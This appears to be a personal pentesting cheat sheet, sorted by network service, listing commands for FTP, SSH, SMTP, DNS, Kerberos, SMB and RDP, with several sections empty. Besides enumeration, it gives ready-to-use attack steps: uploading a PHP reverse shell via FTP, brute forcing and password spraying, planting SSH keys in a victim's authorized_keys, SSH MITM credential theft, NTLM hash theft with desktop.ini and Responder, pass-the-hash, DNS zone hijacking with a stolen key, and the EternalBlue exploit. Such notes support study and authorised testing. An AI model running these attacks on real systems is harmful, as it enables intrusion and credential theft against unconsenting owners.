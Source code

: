 ```yaml
---
layout: notes
permalink: /notes/network/services/
title: Network Services Pentesting Cheat Sheet
---
```




# Network Services Pentesting Cheat Sheet

<!-- ------------------------------------------------FTP NOTES----------------------------------------------------------- -->

<details markdown="1">
<summary>FTP (21)</summary>
<p></p>

### Login
```bash
ftp <IP> #optional port
lftp <IP>
anonymous:anonymous
```

### Commands
```bash
cd
ls -a # List all files (even hidden)
put <filename> #Upload file
get <filename> #Download file
mput/mget #Upload/Downlaod multiple files
quit
```
### Download all files
```bash
wget -m ftp://anonymous:anonymous@10.10.10.98
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
wget -r --user="USERNAME" --password="PASSWORD" ftp://server.com/ #If your user/password has special characters
```

### Automation
```bash
#nmap
nmap --script ftp-* -p 21 <IP>

#metasploit
use auxiliary/scanner/ftp/anonymous
use auxiliary/scanner/ftp/ftp_login
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/ftp_bounce
use auxiliary/scanner/ftp/bison_ftp_traversal
use auxiliary/scanner/ftp/colorado_ftp_traversal
use auxiliary/scanner/ftp/titanftp_xcrc_traversal

#Enum dirs
gobuster dir -u ftp://<IP> -w wordlist

#Bruteforce
hydra -l username -P passwords.txt <target-ip> ftp
hydra -L username.txt -p password <target-ip> ftp
hydra -l username -P passwords.txt ftp://<target-ip>
hydra -L usernames.txt -p password ftp://<target-ip>
```

### Configuration
```bash
cat /etc/vsftpd.conf
cat /etc/vsftpd/vsftpd.conf
```

### Reverse Shell
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
# Edit some variables in shell.php
$ip = '<your-local-ip>';
$port = 1234;
#Upload
ftp <target-ip>
# Upload the payload you downloaded
ftp> put shell.php
# Get shell
nc -lvnp 1234
http://vulnerable.com/path/to/ftp/shell.php
```
</details>


<!-- ------------------------------------------------SSH NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>SSH (22)</summary>
<p></p>

### Basic commands
```bash
sudo systemctl start ssh
sudo systemctl stop ssh
sudo systemctl restart ssh
sudo systemctl status ssh
ps -e | grep ssh
#Config
vim /etc/ssh/sshd_config
#Chek for any Connection
who | grep <username>
#Kill Connections
# -f: full process name to match
sudo pkill -f pts/#
# Authentication logs
grep 'sshd' /var/log/auth.log
```

### Enumeration
```bash
nmap --script ssh-brute -p 22 <target-ip>
nmap --script ssh-auth-methods --script-args="ssh.user=username" -p 22 <target-ip>
nmap --script ssh-* -p 22 <target-ip>

# User enumeration
msfconsole
msf> use auxiliary/scanner/ssh/ssh_enumusers

# Banner and Audit
nc <IP> 22
ssh-audit <target-ip>
```
### Bruteforce
```bash
# -t: tasks
hydra -l username -P passwords.txt <target-ip> ssh -t 4
hydra -L usernames.txt -p password <target-ip> ssh -t 4

# Specific ports
hydra -l username -P passwords.txt -s 2222 <target-ip> ssh -t 4
hydra -l username -P passwords.txt ssh://<target-ip>:2222 -t 4

#Password spraying
hydra -L usernames-list.txt -p Spring2025 ssh://10.1.1.10
```
### Crack SSH Private Key
```bash
ssh2john private_key.txt > hash.txt
# or
python2 /usr/share/john/ssh2john.py private_key.txt > hash.txt

# Crack the password of the private key
john --wordlist=wordlist.txt hash.txt
```
### Connect
```bash
ssh username@<target-ip>
ssh username@<target-ip> -p 22

# Using private key
ssh -i id_rsa username@<target-ip>

# Without username
ssh 10.0.0.1

# Additional options
# If we got the error message "no matching host key type found. Their offer: ssh-rsa..."
ssh -o HostKeyAlgorithms=+ssh-rsa user@10.0.0.1
# If we got error "no matching key exchange method found. Their offer: diffie-hellman-..."
ssh -o KexAlgorithms=+diffie-hellman-group1-sha1 user@10.0.0.1

#Test connection
ssh -T username@10.0.0.1
ssh -T username@10.0.0.1 -vvv

#Command execution
ssh username@<target-ip> 'ls -l'

#Windows AD
ssh domain-name\\username@domain-controller

#Via Private Key
cat /home/<victim-user>/.ssh/id_rsa
echo 'copied content of id_rsa' > private_key.txt
chmod 600 private_key.txt
ssh -i private_key.txt victim-user@<remote-ip>
```

### Transfer files
```bash
# Send a file
scp ./example.txt user@<ip>:./example.txt\

# Send a directory
scp -r ./example user@<ip>:/home/<ip>/

# Download a file
scp user@<ip>:/home/<user>/path/to/file.txt .

# Download a directory
scp -r user@<ip>:/home/<user>/path/to/file.txt .
```
### Create SSH Keys
```bash
# Specify the output file
ssh-keygen -f key

# Specify Ed25519
ssy-keygen -t ed25519

#In target machine install ssh
ssh-copy-id username@<target-ip>
```

### Generate SSH Keys and Set Up Public Key to Connect Remote Machine
```bash
#Check if authorized_keys Exists in Remote Machine
ls /home/<remote-user>/.ssh/authorized_keys
#If it exists, you may be able to connect SSH with your keys as victim user.

#Generate SSH Keys in Local Machine
ssh-keygen -f key

#Copy the content of publick key
cat ./key.pub
#Then copy the content of public key you generated.

#Add the Content of Publick Key to authorized_keys
#In remote machine
echo '<content of id_rsa.pub' >> /home/<victim-user>/.ssh/authorized_keys

#Login with Private Key
#In local machine, we have a SSH private key in local machine so we can login the target SSH server with it.
# Change permission of the private key ('key', here)
chmod 600 key
# Login with it
ssh victim@<target-ip> -i key
```
### Stealing Credentials via MiTM
```bash
# If not have the ssh-mitm, install first.
pip3 install ssh-mitm --upgrade

# --enable-trivial-auth: The "trivial authentication" phishing attack
# --remote-host: Specify the target ip/domain
# --listen-port: Specify the ip address to listen in local machine
ssh-mitm server --enable-trivial-auth --remote-host example.com --listen-port 2222
```

</details>


<!-- ------------------------------------------------TELNET NOTES----------------------------------------------------------- -->

<details markdown="1">
<summary>Telnet (23)</summary>
<p></p>

### Enumeration
```bash
nmap -n -sV -Pn --script "*telnet*" -p 23 {IP}
nmap --script telnet-encryption -p 23 <target-ip>
nmap --script telnet-ntlm-info -p 23 <target-ip>
nmap --script telnet-brute --script-args userdb=users.txt,passdb=passwords.txt,telnet-brute.timeout=8s -p 23 <target-ip>
```

### Configuration
```bash
cat /etc/inetd.conf
# or
cat /etc/xinetd.d/telnet
cat /etc/xinetd.d/stelnet
```

### Connect
```bash
telnet <target-ip> <target-port>
telnet <target-ip> 23
```
</details>


<!-- ------------------------------------------------SMTP NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>SMTP (25/465/587)</summary>
<p></p>

### Enumeration
```bash
nmap --script smtp-brute -p 25,465,587 <target-ip>
nmap --script smtp-commands -p 25,465,587 <target-ip>
nmap --script smtp-enum-users -p 25,465,587 <target-ip>
nmap --script smtp-ntlm-info --script-args smtp-ntlm-info.domain=example.com -p 25,465,587 <target-ip>
nmap --script smtp-vuln-cve2011-1764 -p 25,465,587 <target-ip>
nmap --script smtp-* -p 25,465,587 <target-ip>

# MX Domains
dig mx example.com

#Metasploit
use auxiliary/scanner/smtp/smtp_enum
```

### Users
```bash
# VRFY - check if the user exists in the SMTP server
smtp-user-enum -M VRFY -u <username> -t <target-ip>
smtp-user-enum -M VRFY -U usernames.txt -t <target-ip>

# RCPT - check if the user is allowed to receive mails in the SMTP server
smtp-user-enum -M RCPT -u <username> -t <target-ip>
smtp-user-enum -M RCPT -U usernames.txt -t <target-ip>

# EXPN - reveal the actual email address
smtp-user-enum -M EXPN -u <username> -t <target-ip>
smtp-user-enum -M EXPN -D <hostname> -U usernames.txt -t <target-ip>
```

### STARTTLS
```bash
# port 25
openssl s_client -starttls smtp -connect <target-ip>:25
# Port 465
openssl s_client -crlf -connect <target-ip>:465
# Port 587
openssl s_client -starttls smtp -crlf -connect <target-ip>:587
```

### Connect
```bash
nc <target-ip> 25
# or
telnet <target-ip> 25
```

### Commands
```bash
# Identify SMTP Server
helo example.com
# List all supported enhanced functions
ehlo example.com
# 8BITMIME - allow to send 8-bit data
# AUTH - authentication for the SMTP connection
# CHUNKING - transfer chunks of data
# DSN (Delivery Status Notifications) - notify delivery status
# ENHANCEDSTATUSCODES - allow to show more details of the status
# ETRN - process remote queue
# EXPN - expand mailing list
# HELP - help about commands
# PIPELINING - allow the multiple commands
# SIZE - maximum message size that can be received
# SMTPUTF8 -
# STARTTLS - communicate with TLS
# SEND - send message to terminal
# TURN - swap client and server
# VRFY - check if the user exists in the SMTP server

# Auth Login
# The AUTH LOGIN command allows us to login. We need to input username/password in Base64.
334 VXNlcm5hbWU6 # Base64-encoded "username:"
dGVzdA== # Base64-encoded "test"
334 UGFzc3dvcmQ6 # Base64-encoded "password:"
cGFzc3dvcmQ= # Base64-encoded "password"

# Messages
## 1. check if the user exists
vrfy <username>
vrfy root
# 2. set the address of the mail sender
mail from: <username>
mail from: root
mail from: sender@example.com
# 3. set the address of the mail recipient
rcpt to: <username>
rcpt to: root
rcpt to: recipient@example.com
# 4. send data of message (the message end with ".")
data
subject: Test Mail
This is a test mail.

# process remote queue
etrn example.com
# list the mailing list
expn example.com
```

### Send Mail
```bash
# Tool https://github.com/jetmore/swaks
swaks --to remote-user@example.com --from local-user@<local-ip> --server mail.example.com --body "hello"

# --attach: Attach a file
swaks --to remote-user@example.com --from local-user@<local-ip> --server mail.example.com --body "hello" --attach @evil.docx
```

### Start SMTP Server
```bash
# -n: No setuid
# -c: Classname
sudo python3 -m smtpd -n -c DebuggingServer 10.0.0.1:25
```
</details>


<!-- ------------------------------------------------DNS NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>DNS (53)</summary>
<p></p>

### Enumeration
```bash
# Nmap
nmap --script dns-nsec-enum --script-args dns-nsec-enum.domains vulnerable.com -p 53 <target-ip>
nmap --script dns-random-srcport -p 53 <target-ip>
nmap --script dns-recursion -p 53 <target-ip>
nmap --script dns-service-discovery -p 53 <target-ip>
nmap --script dns-* -p 53 <target-ip>
nmap -n --script "(default and *dns*) or fcrdns or dns-srv-enum or dns-random-txid or dns-random-srcport" <target-ip>

# Get IP address from the domain
host example.com

# Reverse Lookup (Resolves domain name from IP address)
dig -x <ip>
dig -x 8.8.8.8
```

### Online Tools
[https://dnsdumpster.com/](https://dnsdumpster.com/)

### Subdomain Discovery
```bash
dnsenum --dnsserver <target-ip> -f wordlist.txt example.com

# Do not scrape from Google search
# -p: The number of google search pages
# -s: The maximum number of subdomains that will be scraped from Google
dnsenum --dnsserver <target-ip> --enum -p 0 -s 0 -f wordlist.txt example.com

# Fuzzing
# ffuf tool
ffuf -w /usr/share/wordlists/dirb/small.txt -u http://victim.htb/ -H "Host: FUZZ.victim.htb" -c -fc 301
ffuf -H "Host: FUZZ.$DOMAIN" -H "User-Agent: PENTEST" -c -w "/path/to/wordlist.txt" -u $URL
ffuf -c -r -w "/path/to/wordlist.txt" -u "http://FUZZ.$TARGET/"
# gobuster tool
gobuster vhost --useragent "PENTEST" --wordlist "/path/to/wordlist.txt" --url $URL
# wfuzz tool
wfuzz -H "Host: FUZZ.victim.com" --hc 404,403 -H "User-Agent: PENTEST" -c -z file,"/path/to/wordlist.txt" $URL
```

### DNS Records
```bash
# ANY (all) record
did example.com ANY
dig example.com @<dns-ip> ANY
dig example.com +nocmd +noall +answer ANY

# NS (nameserver) record
dig example.com NS

# TXT record
dig example.com TXT

# Specify a public DNS server
# Cloudflare
dig example.com @1.1.1.1
# Google
dig example.com @8.8.8.8
# Quad9
dig example.com @9.9.9.9
```

### Zone Transfer
The zone transfer is the process of copying the zone file on a primary DNS server to a secondary DNS server.
```bash
# axfr: Check if the Full Zone Transfer (AXFR) is available
dig @<nameserver> AXFR
dig example.com @<nameserver> AXFR
dig example.com @example.com AXFR
dig <zone-name> @<nameserver> AXFR
```

### BIND
```bash
# BIND version
dig @<nameserver-address> chaos txt version.bind
```

### Configuration
```bash
# In Linux
/etc/bind/named.conf
/etc/bind/named.conf.options
/etc/bind/named.conf.local
/etc/bind/named.conf.default-zones

#Example: If we found the secret key such like below, we can update DNS zone.
# /etc/bind/named.conf
key "rndc-key" {
    algorithm hmac-sha256;
    secret "zBatC828gunRa...bA=";
};
# We can update DNS Zone with the nsupdate command:
# -d: Debug mode
# -y: Set the literal TSIG (Transaction Signature) authentication key.
nsupdate -d -y hmac-sha256:rndc-key:zBatC828gunRa...bA= 
Creating key...
namefromtext
keycreate
# Enter target domain
> server example.com
# Enter the new record
# 86400: The TTL (Time-To-Live) for the DNS record. Set 86400 seconds (24 hours) here.
# IN: Internet
# A: A record
# 10.0.0.1: Set your local ip address
> update add sub.example.com 86400 IN A 10.0.0.1
> send
Reply from SOA query:
...
```

### Resolve domains
```bash
#Edit /etc/hosts file as root to add custom domains.
nano /etc/hosts

# Add the custom domain
10.0.0.2  vulnerable.com sub.vulnerable.com
10.0.0.3  vulnerable2.com

sudo systemctl restart systemd-hostnamed
```

### Set DNS Resolver
```bash
#Edit /etc/resolv.conf file as root to add custom nameservers.
nano /etc/resolv.conf

#Google
nameserver 8.8.8.8
nameserver 8.8.4.4
# IPv6
nameserver 2001:4860:4860::8888
nameserver 2001:4860:4860::8844

#Cloudflare
nameserver 1.1.1.1

sudo systemctl restart systemd-resolved.service
```

### DNS Cache
```bash
#Clear IP addresses or DNS records from caches.
sudo resolvectl flush-caches
# or
sudo systemd-resolve --flush-cache

#Check DNS caches are actually flushed
sudo resolvectl statistics
# or
sudo systemd-resolve --statistics
```
</details>

<!-- ------------------------------------------------Kerberos NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>Kerberos (88)</summary>
<p></p>

### Enumeration
```bash
nmap --script krb5-enum-users --script-args krb5-enum-users.realm='example.local'-p 88 <target-ip>
```

### Bruteforce Authentication
```bash
#Using nmap script (brute usernames)
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm="{Domain_Name}",userdb={Big_Userlist} {IP}


#Using Kerbrute: https://github.com/ropnop/kerbrute (brute usernames and passwords)
# --dc: domain controller
# -d: domain
# combos.txt: the wordlist specified must be combinations with "username:password".
kerbrute bruteforce --dc 10.0.0.1 -d example.domain combos.txt
# Users enumeration
kerbrute userenum --dc 10.0.0.1 -d example.domain usernames.txt
# Brute force user's password
kerbture bruteuser --dc 10.0.0.1 -d example.domain passwords.txt username
```

### Get list of user service principal names (SPNs)
```bash
# If you know creds
impacket-GetUserSPNs.py -request -dc-ip {IP} active.htb/svc_tgs
```

</details>


<!-- ------------------------------------------------POP NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>POP (110/995)</summary>
<p></p>

```bash

```
</details>


<!-- ------------------------------------------------SMB NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>SMB (139/445)</summary>
<p></p>

### Enumeration
```bash
#nmap
nmap --script smb-brute -p 139,445 <target-ip>
nmap --script smb-enum-shares.nse,smb-enum-users.nse -p 139,445 <target-ip>
nmap --script smb-enum* -p 139,445 <target-ip>
nmap --script smb-protocols -p 139,445 <target-ip>
nmap --script smb-vuln* -p 139,445 <target-ip>

# NetBIOS names
nmblookup -A 10.0.0.1
nbtscan 10.0.0.1
nbtscan -r 10.0.0.1/24

# Enum4linux
enum4linux <target-ip>
# All enumeration
enum4linux -a <target-ip>
# Verbose
enum4linux -v <target-ip>
# Specify username and password
enum4linux -u username -p password <target-ip>

# Enum4linux-ng
# -A: All simple enumeration including nmblookup
enum4linux-ng -A <target-ip>
# -As: All simple short enumeration without NetBIOS names lookup
enum4linux-ng -As <target-ip>
# -u: Specific username
# -p: Specific password
enum4linux-ng -u "administrator" -p "password" <target-ip>

# NetExec (https://www.netexec.wiki/)
netexec smb 10.0.0.0/24
netexec smb <target-ip>
netexec smb <target-ip-1> <target-ip-2>
netexec smb <target-ip> --pass-pol
netexec smb <target-ip> --groups
netexec smb <target-ip> --users
# Specify username/password
netexec smb <target-ip> -u username -p password
netexec smb <target-ip> -u username -p password --users
# -M zerologon: Scan for ZeroLogon
# -M petitpotam: Scan for PetitPotam
netexec smb <target-ip> -u '' -p '' -M zerologon -M petitpotam
```
### Find Shared Folders
```bash
# -N: No password
# -L: List shared directories
smbclient -N -L <target-ip>
smbclient -L <target-ip> -U username

smbmap -H <target-ip>
# Recursive
smbmap -H <target-ip> -R
# Username and password
smbmap -u username -p password -H <target-ip>
# Execute a command
smbmap -u username -p password -H <target-ip> -x 'ipconfig'

netexec smb <target-ip> -u '' -p '' --shares
netexec smb <target-ip> -u username -p password --shares

impacket-psexec example.local/username@<target-ip>
```
### Bruteforce
```bash
netexec smb <target-ip> -u username -p passwords.txt --continue-on-success
netexec smb <target-ip> -u usernames.txt -H ntlm_hashes.txt --continue-on-success

hydra -l username -P passwords.txt <target-ip> smb
hydra -L usernames.txt -p password <target-ip> smb

# RID Brute Force
netexec smb <target-ip> -u username -p password --rid-brute 20000

# Using Metasploit
msfconsole -q
msf> use auxiliary/scanner/smb/smb_login

#If we find credentials, we can use them for smbclient or WinRM. 
#If we got "STATUS_PASSWORD_MUST_CHANGE" for some users, we can update a current password to a new one.
smbpasswd -r <target-ip> -U <username>
# or
impacket-smbpasswd <DOMAIN>/<username>:<password>@<target-ip> -newpass <new-password>
# If you don't have impacket-smbpasswd, download it from a repository.
wget https://raw.githubusercontent.com/fortra/impacket/master/examples/smbpasswd.py
```

### Password Spraying
```bash
# User enumeration
netexec smb <target-ip> -u John -p Password123 --users
netexec smb <target-ip> -u John -H <NTLM_HASH> --users

# Find users with same password
netexec smb <target-ip> -u users.txt -p Password123 --continue-on-success
netexec smb <target-ip> -u users.txt -p found_passwords.txt --continue-on-success
netexec smb <target-ip> -u users.txt -H <NTLM_HASH> --continue-on-success
netexec smb <target-ip> -u users.txt -H found_ntlm_hashes.txt --continue-on-success
```

### RID Cycling Attack
RID Enumeration. It attempts to enumerate user accounts through null sessions.
```bash
# Anonymous logon
# 20000: Maximum RID to be cycled
impacket-lookupsid example.local/anonymous@<target-ip> 20000 -no-pass
impacket-lookupsid example.local/guest@<target-ip> 20000 -no-pass
impacket-lookupsid example.local/guest@<target-ip> 20000
# Specify user
impacket-lookupsid example.local/user@<target-ip> 20000 -hashes <lmhash>:<nthash>
impacket-lookupsid example.local/user@<target-ip> 20000


# USEFUL COMMAND
# This command extract usernames. It's useful for further enumeration which uses usernames.
# Replace the following keywords:
#  - `example.com` => Target domain
#  - `10.0.0.1`    => Target IP
#  - `DOMAIN`      => Target domain name
impacket-lookupsid example.com/guest@10.0.0.1 20000 -no-pass > tmp.txt | cat tmp.txt | grep SidTypeUser | cut -d ' ' -f 2 | sed 's/DOMAIN\\//g' | sort -u > users.txt && rm tmp.txt
```

### NTLM Stealing via ntlm_tool
```bash
git clone https://github.com/Greenwolf/ntlm_theft
# -g all: Generate all files.
# -s: Local IP (attacker IP)
# -f: Folder to store generated files.
python3 ntlm_theft -g all -s <local-ip> -f samples

#After generating files with ntlm_theft put the .lnk file to shared folder
smbclient -N //10.0.0.1/example
smb> put samples.lnk

#Start responder
sudo responder -I eth0
```

### NTLM Stealing via Desktop.ini
```bash
#We can retrieve the hashes by putting desktop.ini file, that contains arbitrary icon resource path, to the shared folder.
#Create a new desktop.ini in local machine.
[.ShellClassInfo]
IconResource=\\<local-ip>\test

#Then upload it to the writable shared folder.
put desktop.ini

#Start responder
sudo responder -I eth0
```

### Connect
```bash
# anonymous login
smbclient //10.0.0.1/somedir -N
# If the folder name contains spaces, surround with double quotes
smbclient "//10.0.0.1/some dir" -N
# Specify user
smbclient //10.0.0.1/somedir -U username
# nobody, no-pass
smbclient //10.0.0.1/somedir -N -U nobody
# Specify workgroup
smbclient -L 10.0.0.1 -W WORKGROUP -U username

#Windows shell
impacket-wmiexec example.local/username@10.0.0.1
# Pass the Hash
impacket-wmiexec -hashes abcdef0123456789abcdef0123456789:c2597747aa5e43022a3a3049a3c3b09d example.local/username@10.0.0.1
```

### Commands
```bash
ls
get file.txt
get "my document.txt"

#Download all files
mask ""
recurse ON
prompt OFF
mget *

#Download files using smbget
smbget smb://<target-ip>/somedir/example.txt -U username
smbget -R smb://<target-ip>/somedir -U username
# Specify workgroup
smbget -R smb://<target-ip>/somedir -w WORKGROUP -U username
# as anonymous user
smbget smb://<target-ip>/somedir -U anonymous
password: anonymous

#Upload files
put example.txt

#Reverse shell
put shell.aspx
#Configure listener
nc -lvnp 4444
#Access the shared file
https://example.com/path/to/smb/share/shell.aspx
```

### Eternal Blue (MS17-010)
```bash
#Metasploit
use exploit/windows/smb/ms17_010_eternalblue
set rhosts <target-ip>
set lhost <local-ip>
run
# If you cannot get a shell with the default payloed (windows/x64/meterpreter/reverse_tcp), try to change the payload
set payload payload/generic/shell_reverse_tcp

#Automated tool (autoblue)
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
python zzz_exploit.py -target-ip <target-ip> -port 445 'username:password@target'
```

</details>


<!-- ------------------------------------------------IMAP NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>IMAP (143/993)</summary>
<p></p>

```bash

```
</details>


<!-- ------------------------------------------------LDAP NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>LDAP (389/636/3268/3269)</summary>
<p></p>

```bash

```
</details>


<!-- ------------------------------------------------MSSQL NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>MSSQL (1433)</summary>
<p></p>

```bash

```
</details>


<!-- ------------------------------------------------MYSQL NOTES----------------------------------------------------------- -->

<details markdown="1">
<summary>MysQL (3306)</summary>
<p></p>

```bash

```
</details>


<!-- ------------------------------------------------RDP NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>RDP (3389)</summary>
<p></p>

```bash
#Password spraying
git clone https://github.com/xFreed0m/RDPassSpray
#Options:
RDPassSpray.py [-h] (-U USERLIST | -u USER  -p PASSWORD | -P PASSWORDLIST) (-T TARGETLIST | -t TARGET) [-s SLEEP | -r minimum_sleep maximum_sleep] [-d DOMAIN] [-n NAMES] [-o OUTPUT] [-V]
#Usage:
python3 RDPassSpray.py -U users.txt -p Spring2025! -t 10.100.10.240:3389
```
</details>

<details markdown="1">
<summary>WinRM (5985/5986)</summary>

```bash

```
</details>


<!-- ------------------------------------------------qwe NOTES----------------------------------------------------------- -->

